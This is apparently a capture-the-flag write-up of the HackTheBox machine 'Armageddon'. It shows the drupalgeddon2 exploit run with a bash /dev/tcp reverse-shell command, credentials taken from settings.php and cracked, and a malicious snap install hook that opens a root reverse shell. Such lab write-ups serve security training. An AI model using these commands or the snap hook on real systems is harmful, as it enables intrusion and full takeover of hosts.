 ```yaml
---
title: Armageddon HackTheBox Writeup
tags: [writeup,hackthebox,drupal,drupalgeddon2,snap]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/2.png)

## Enumeration
We access the web resource, we find a website designed in Drupal (as we had previously seen in nmap).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/3.png)

We list the deployed version of Drupal, an attacker would manage to list public exploits to abuse vulnerabilities in this version.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/4.png)

## Exploitation

#####  Exploit: [drupalgeddon2](https://raw.githubusercontent.com/lorddemon/drupalgeddon2/master/drupalgeddon2.py)

### PoC

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/5.png)

### Reverse shell code
``` bash
python drupalgeddon2.py -h http://10.10.10.233 -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/6.png)

We review the "*settings.php*" file and list the database credentials. This is highly recommended, as there is a possibility of password reuse.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/7.png)

So, we list the users and try the password, but it doesn't work.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/8.png)

We dump the DDBB data and find the hash of the Drupal user "*brucetherealadmin*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/10.png)

### Cracking hash
We crack the hash with **john** and **rockyou** dictionary and get the credentials in plain text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/11.png)

We access by **SSH** and read the flag of "*user.txt*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/12.png)


## Privilege Escalation
We run the command "sudo -l", we see that we can install snaps as the root user.

We search for information on Google, we see that we can create a malicious snap package and run it as the user with elevated privileges.

### PoC
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/13.png)

Great, we could read the "*root.txt*" file directly, but we would not be squeezing the most out of the machine.

So, we'll use the following lines to *create a malicious snap package* to give us a reverse shell on our kali.

```bash
COMMAND='bash -i >& /dev/tcp/10.10.14.15/555 0>&1'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/bash\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n m3n0s -s dir -t snap -a all meta
```

We set up a *python server* on our kali and transfer the file with **curl**. Now we run **snap** with **sudo**, wait to receive our reverse shell as root and read the root flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Armageddon/14.png)




